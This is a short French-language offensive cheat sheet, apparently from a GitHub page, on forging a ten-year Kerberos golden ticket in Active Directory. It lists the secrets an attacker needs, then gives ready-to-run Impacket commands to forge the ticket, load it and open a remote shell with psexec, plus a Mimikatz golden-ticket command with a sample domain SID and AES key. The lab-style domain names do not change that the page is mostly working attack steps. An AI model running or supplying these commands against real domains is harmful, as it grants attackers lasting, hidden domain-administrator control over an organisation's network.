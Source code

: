 

> [!TIP]
> Forger un ticket Kerberos avec une validité de 10 ans

Pour performer cette attaque, besoin des éléments suivants:

- The KRBTGT hash for domain (préférer la clé AES au hash NT)
- The SID for the domain
- The name of a target user in the domain
- The FQDN of the domain.

# Linux

## Impacket

Forger le ticket

```
impacket-ticketer -aesKey <hash_krbtgt> -domain-sid <SID> -domain <domain.local> <target_user>
```

Injecter le ticket

```
export KRB5CCNAME=<target_user>.ccache
```

Pass the ticket (psexec ou wmiexec)

```
impacket-psexec jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
```


# Windows

## Mimikatz

```
kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /aes256:430b2fdb13cc820d73ecf123dddd4c9d76425d4c2156b89ac551efb9d591a439 /ticket:golden.kirbi
```